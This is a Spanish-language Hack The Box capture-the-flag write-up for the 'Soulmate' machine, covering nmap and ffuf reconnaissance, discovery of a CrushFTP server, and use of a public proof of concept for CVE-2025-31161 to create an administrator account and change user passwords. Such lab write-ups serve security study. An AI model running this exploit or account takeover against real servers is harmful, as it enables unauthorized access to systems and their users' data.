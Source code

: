 # Metodologías de ataque

Creamos nuestra carpeta con el nombre de la maquina `soulmate` y dentro crearemos las subcarpetas para cada fase `content, exploits, nmap, scripts`

Revisamos la conexion a la ip

```bash
ping -c 2 10.10.11.86
```
Respuesta:
<pre>
PING 10.10.11.86 (10.10.11.86) 56(84) bytes of data.
64 bytes from 10.10.11.86: icmp_seq=1 ttl=63 time=139 ms
64 bytes from 10.10.11.86: icmp_seq=2 ttl=63 time=141 ms

--- 10.10.11.86 ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1001ms
rtt min/avg/max/mdev = 139.407/139.959/140.511/0.552 ms
</pre>

Teniendo la respuesta ingresamos a la ip que nos entrega HTB, en mi caso es la 10.10.11.86

Nos indica que no pudo resolver soulmate.htb

###Ingresar imagen

Ingresamos al archivo hosts e ingresamos la ip y el dominio que nos indica en la pagina

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.hth
</pre>

Recargamos la pagina y deberiamos ya poder ver el inicio:

###INgresar imagen


Realizamos un escaneo en nmap y en paralelo haremos escaneos de directorios y subdominios

## Escaneo previo
**Full TCP (nmap):**
```bash
nmap -vvv -sS -p- --min-rate 1000 -n -Pn 10.10.11.86 -oG nmap/allPorts
```

Respuesta:
<pre>
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-28 13:38 -03
Initiating SYN Stealth Scan at 13:38
Scanning 10.10.11.86 [65535 ports]
Discovered open port 22/tcp on 10.10.11.86
Discovered open port 80/tcp on 10.10.11.86
Increasing send delay for 10.10.11.86 from 0 to 5 due to 382 out of 1272 dropped probes since last increase.
Increasing send delay for 10.10.11.86 from 5 to 10 due to max_successful_tryno increase to 4
Completed SYN Stealth Scan at 13:38, 15.04s elapsed (65535 total ports)
Nmap scan report for 10.10.11.86
Host is up, received user-set (0.26s latency).
Scanned at 2025-09-28 13:38:09 -03 for 15s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63
</pre>

Vemos que tenemos 2 puertos, usaremos esos para escanearlos

## Escaneo de servicios
**Servicios + scripts:**
```bash
nmap -v -sC -sV --min-rate 1000 -p 22,80 -n 10.10.11.86 -oG nmap/targeted
```

<pre>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soulmate.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
</pre>

## Fuzzing de directorios web
```bash
ffuf -w /usr/share/wordlists/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://soulmate.htb/FUZZ -o content/dirs-soulmate.json -of json -t 25 -fw 6110
```

Respuesta:

<pre>
assets                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]

</pre>

## Fuzzing de subdominios / vhosts
```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://soulmate.htb -H "Host: FUZZ.soulmate.htb" -o content/domains-soulmate.json -of json -t 25
```

Respuesta:

<pre>
ftp                     [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 228ms]
</pre>

## Fuzzing de archivos

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt -u http://soulmate.htb/assets/FUZZ -e .php,.html,.bak,.txt -recursion -recursion-depth 2 -mc 200,301,302 -fc 404 -t 25 -ocontent/extensions-soulmate.jsonn -of json 
```

Respuesta:

<pre>
css                     [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 139ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/css/FUZZ

images                  [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 140ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/css/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/FUZZ

profiles                [Status: 301, Size: 178, Words: 6, Lines: 8, Duration: 138ms]
[INFO] Adding a new job to the queue: http://soulmate.htb/assets/images/profiles/FUZZ

[INFO] Starting queued job on target: http://soulmate.htb/assets/images/profiles/FUZZ

:: Progress: [23615/23615] :: Job [4/4] :: 197 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
</pre>

Ingresamos a cada uno de los directorios para verificar algun heartbleed pero no se obtiene nada favorable.

Intentamos acceder al ftp del sitio: ftp.soulmate.htb

#Insertar imagen

Agregamos el ftp al archivo hosts.

```bash
sudo nano /etc/hosts
```

<pre>
10.10.11.86 soulmate.htb ftp.soulmate.htb
</pre>

recargamos la pagina y ya deberiamos tener acceso al ftp

#Insertar imagen

En caso de no cargar probar con la combinacion de teclas Ctrl+F5 para recargar cache.

Dentro de la pagina hacemos una inspeccion de código y verificamos que la version del CrushFTP es la `v11.W.657`

Realizamos una busqueda en google y validamos la vulnerabilidad: "11.W.657 CRUSHFTP Vuln"

y encontramos el CVE de la vulnerabilidad: CVE-2025-31161

Fuente: https://s2grupo.es/vulnerabilidades-crushftp-2025/

Realizamos otra busqueda en google con la CVE: CVE-2025-31161 y vemos que en github hay una POC en python para usarse

#Insertar imagen

Descargamos la POC y la ejecutamos:

```bash
cd exploits
git clone https://github.com/Immersive-Labs-Sec/CVE-2025-31161.git
python3 cve-2025-31161.py
```
Respuesta:

<pre>
[-] Target host not specified
usage: cve-2025-31161.py [-h] [--target_host TARGET_HOST] [--port PORT] [--target_user TARGET_USER] [--new_user NEW_USER] [--password PASSWORD]

Exploit CVE-2025-31161 to create a new account

options:
  -h, --help            show this help message and exit
  --target_host TARGET_HOST
                        Target host
  --port PORT           Target port
  --target_user TARGET_USER
                        Target user
  --new_user NEW_USER   New user to create
  --password PASSWORD   Password for the new user

</pre>

Nos pide ingresar los datos en este orden (probaremos con el usuario root que es el mas común):

```bash
python3 --target_host http://ftp.soulmate.htb --port 80 --target_user root --new_user prueba --password admin123
```

Respuesta:

<pre>
[+] Preparing Payloads
  [-] Warming up the target
  [-] Target is up and running
[+] Sending Account Create Request
  [!] User created successfully
<strong>[+] Exploit Complete you can now login with
   [*] Username: prueba
   [*] Password: admin123.</strong>
</pre>

Tenemos el usuario creado, ahora validamos el acceso:

#Insertar imagen

Empezamos a navegar en el portal y lo primero que vemos es la opcion de Admin, dentro de esta opcion navegamos por el menu hasta que llegamos a la parte de User Manager. Donde podemos ver los usuarios registrados hasta el momento.

Probaremos con el primer usuario a ver si le podemos cambiar la password y presionamos en Save:

#Insertar imagen


> **Recordatorio:** documentar comandos, salidas y autorización es obligatorio. Uso exclusivo en entornos autorizados.
